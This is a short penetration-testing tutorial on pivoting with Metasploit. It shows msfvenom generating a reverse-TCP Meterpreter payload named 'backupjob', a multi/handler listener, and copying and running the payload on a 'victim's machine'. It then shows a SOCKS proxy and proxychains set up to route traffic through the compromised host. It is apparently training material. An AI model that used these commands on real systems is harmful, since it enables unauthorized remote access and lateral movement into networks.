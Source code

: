 Autoroute module allows you to set routes from a meterpreter session to a discovered subnet in the attacked machine. It allow us pivoting from one subnet to another.


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host.

```shell-session
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 
set version 4a
run
# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.

# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
jobs
```

**5.** Add a Line to proxychains.conf if needed.

```shell-session
socks4 	127.0.0.1 9050
# Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
```
